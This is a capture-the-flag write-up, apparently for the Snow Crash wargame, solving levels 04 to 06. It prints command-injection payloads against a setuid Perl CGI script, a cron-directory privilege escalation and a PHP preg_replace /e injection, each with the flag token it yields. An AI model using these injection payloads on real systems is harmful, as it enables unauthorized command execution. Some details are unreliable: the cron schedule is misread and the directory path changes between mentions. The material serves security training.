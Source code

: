 ## Level 04 (CGI exploit)
We have a `perl` script, which again has a `setuid` bit set. However, modern Perl interpreters ignore access rights flags on the scripts that they execute. 

```sh
> ./level04.pl x='`getflag `'
Content-type: text/html

Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)
```

We need to be try harder.  Noting that the author of the script left a comment referring to port 4747, we attempt a localhost connection.

```sh
> curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

_Token: ne2searoevaevoem4ov4ar8ap_
- - - -

## Level 05 (cron exploit)
```sh
You have mail.
> cat /var/spool/mail/$USER
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
> service cron status
cron start/running, process 1298
```

We’ve got mail from a friend, pointing out a `cron` rule running every half minute and authored by  `flag05`. The rule tells `cron` to run any executable it finds within the `/usr/sbin/openarenaserver` directory and delete it afterwards. 

Placing the following script inside `/opt/openarenaserver` and waiting for 30 seconds, we get the desired token. 

```sh
getflag > /tmp/getflag_output
```

> Some students taking this exercise did not receive a mail notification. For them, the best course of action was to search for files owned by `level05` using the `find` command.  

_Token: viuaaale9huek52boumoomioc_
- - - -

## Level 06 (preg_replace exploit)
The use of the function `preg_replace` with the `e` modifier has been forbidden in recent versions of PHP, because of its serious security implications. Luckily -for us-, our local PHP interpreter is still vulnerable. 

```sh
> chmod 755 .
> echo '[x {$y('getflag')}]' > shell_exec
> ./level06 shell_exec BLA
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```
